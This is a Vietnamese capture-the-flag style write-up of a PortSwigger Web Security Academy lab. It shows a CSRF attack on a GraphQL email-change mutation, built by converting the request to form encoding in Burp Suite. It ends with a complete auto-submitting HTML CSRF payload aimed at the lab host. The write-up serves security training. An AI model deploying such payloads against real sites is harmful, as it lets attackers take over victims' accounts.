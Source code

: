 Thực hiện login vào lab bằng user được cung cấp `wiener:peter` => Tiến hành Change địa chỉ Email.

Bắt traffic qua BurpSuite thì thấy tính năng Change Email được thực hiện qua GraphQL API: `POST /graphql/v1`

![image](https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/d9df5306-edb9-481e-b224-c9ac0d64d165)

Do tấn công CSRF sẽ không thực hiện được với `Content-Type: application/json` nên ta phải tìm cách chuyển request trên thành dạng `Content-Type: application/x-www-form-urlencoded`

=> Gửi request trên sang tab Repeater và chọn `Change Request Method` 2 lần POST -> GET -> POST. Khi này request convert sang hiện không còn lưu lại giá trị parametter value => Chúng ta cần bổ sung thêm phần này.

Ngoài ra, copy link URL của request `POST /graphql/v1` cho sang tab InQL Scanner => Ta thu được query `changeEmail` như sau:

![image](https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/182ef883-eedd-4ce7-9938-f92b325f8adb)

=> Copy query thu được (fill vào địa chỉ email mà ta muốn victim change sang) và chuyển sang dạng URL Encode.

```
mutation {
	changeEmail(input:{email: "123456mail.com"}) {
		email
	}
}
```

URL Encode: `%6d%75%74%61%74%69%6f%6e%20%7b%0a%09%63%68%61%6e%67%65%45%6d%61%69%6c%28%69%6e%70%75%74%3a%7b%65%6d%61%69%6c%3a%20%22%31%32%33%34%35%36%6d%61%69%6c%2e%63%6f%6d%22%7d%29%20%7b%0a%09%09%65%6d%61%69%6c%0a%09%7d%0a%7d`

Ghép query trên vào Request POST dạng `Content-Type: application/x-www-form-urlencoded` như sau:

![image](https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/8c1dba67-26c9-4358-a74a-b8e59dac47dd)

Sử dụng tính năng Generate CSRF PoC

![image](https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/4e58abd0-3224-4886-beec-c210fc5c4094)

Chỉnh sửa thêm event cho button auto submit khi được load => Cuối cùng Payload của chúng ta submit lên Exploit Server như sau:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body onload="document.ndkhai.submit()">
  <script>history.pushState('', '', '/')</script>
    <form action="https://0af7007204fa292282e11501006c005d.web-security-academy.net/graphql/v1" method="POST" name="ndkhai">
      <input type="hidden" name="query" value="mutation&#32;&#123;&#10;&#9;changeEmail&#40;input&#58;&#123;email&#58;&#32;&quot;123456mail&#46;com&quot;&#125;&#41;&#32;&#123;&#10;&#9;&#9;email&#10;&#9;&#125;&#10;&#125;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

Deliver Exploit to victim => LAB RESOLVED!

![image](https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/0810722d-75c5-4bf8-933c-4b94ea7ceaf5)
